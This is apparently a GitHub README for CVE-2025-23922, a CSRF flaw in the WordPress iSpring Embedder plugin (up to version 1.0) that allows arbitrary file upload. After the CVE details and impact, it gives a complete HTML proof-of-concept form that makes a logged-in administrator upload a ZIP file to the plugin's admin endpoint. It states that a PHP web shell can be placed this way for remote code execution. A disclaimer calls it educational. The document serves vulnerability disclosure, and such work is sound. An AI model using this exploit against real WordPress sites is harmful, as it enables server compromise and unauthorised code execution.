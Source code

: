 # CVE-2025-23922 - WordPress iSpring Embedder CSRF to Arbitrary File Upload

### 📌 CVE Details

- **CVE ID:** CVE-2025-23922  
- **Published:** 2025-01-16  
- **Plugin Affected:** WordPress iSpring Embedder plugin  
- **Versions Affected:** <= 1.0  
- **Author of Plugin:** Harsh  
- **Vulnerability Type:** Cross-Site Request Forgery (CSRF) → Arbitrary File Upload  
- **CWE ID:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)  
- **CVSS Score:** 10.0 (Critical)  
- **Vector:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`  

---

### 🔥 Description

A **CSRF vulnerability** in the **iSpring Embedder WordPress plugin** allows an unauthenticated remote attacker to **trick an authenticated administrator** into uploading arbitrary files (such as a PHP web shell) to the server.  

The vulnerable endpoint does not implement any CSRF protection, and the file upload feature accepts `.zip` files, which are extracted to the following location:

```
/wp-content/uploads/iSpring_embedder/
```

---

### 💡 Impact

An attacker can:

- Trigger file uploads without authentication.
- Gain remote code execution (RCE) by uploading a malicious PHP file inside a ZIP archive.
- Compromise the entire web server by chaining this with a crafted web shell.

---

### 🚀 Proof-of-Concept (PoC) Exploit (HTML)

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>CSRF File Upload Exploit</title>
  <style>
    body {
      font-family: Arial, sans-serif;
      background-color: #f4f4f4;
      padding: 20px;
    }
    .container {
      background: #fff;
      padding: 25px;
      border-radius: 10px;
      box-shadow: 0 0 10px rgba(0,0,0,0.1);
      max-width: 600px;
      margin: auto;
    }
    h1 {
      color: #d9534f;
    }
    input[type="file"],
    input[type="submit"] {
      margin-top: 10px;
      padding: 10px;
      font-size: 16px;
    }
    .footer {
      margin-top: 30px;
      font-size: 14px;
      color: #777;
      text-align: center;
    }
  </style>
</head>
<body>
  <div class="container">
    <h1>CSRF Exploit – File Upload</h1>

    <p>
      This is a proof-of-concept (PoC) exploit for the following vulnerability:
    </p>
    <ul>
      <li><strong>Vulnerability:</strong> CSRF leading to Arbitrary File Upload</li>
      <li><strong>Plugin:</strong> iSpring Embedder for WordPress (<= v1.0)</li>
      <li><strong>CVE:</strong> CVE-2025-23922</li>
      <li><strong>Impact:</strong> Remote attackers can coerce an authenticated administrator to upload arbitrary files, potentially including web shells.</li>
      <li><strong>Upload Path:</strong> <code>/wp-content/uploads/iSpring_embedder/</code></li>
    </ul>

    <form id="csrfForm" action="http://wordpresssite/wp-admin/admin.php?page=ispring-embedder" method="POST" enctype="multipart/form-data">
      <label><strong>Select ZIP file to upload:</strong></label><br>
      <input type="file" name="zip_file" required><br>
      <input type="hidden" name="file_name" value="exploit_csrf">
      <input type="submit" name="submit_ispring_form" value="Upload File via CSRF">
    </form>

    <div class="footer">
      <p>
        Exploit for <strong>CSRF to Arbitrary File Upload vulnerability</strong><br>
        <strong>CVE-2025-23922</strong><br>
        Developed by <strong>Nxploit | Khaled Alenazi</strong>
      </p>
    </div>
  </div>
</body>
</html>

```

---
---

### ⚠️ Disclaimer

This proof-of-concept is provided for educational and research purposes only.  
The author is not responsible for any misuse or damage caused by this exploit.

**Nxploit | Khaled Alenazi**  
Security Researcher & Exploit Developer  
[https://github.com/Nxploit](https://github.com/Nxploited)

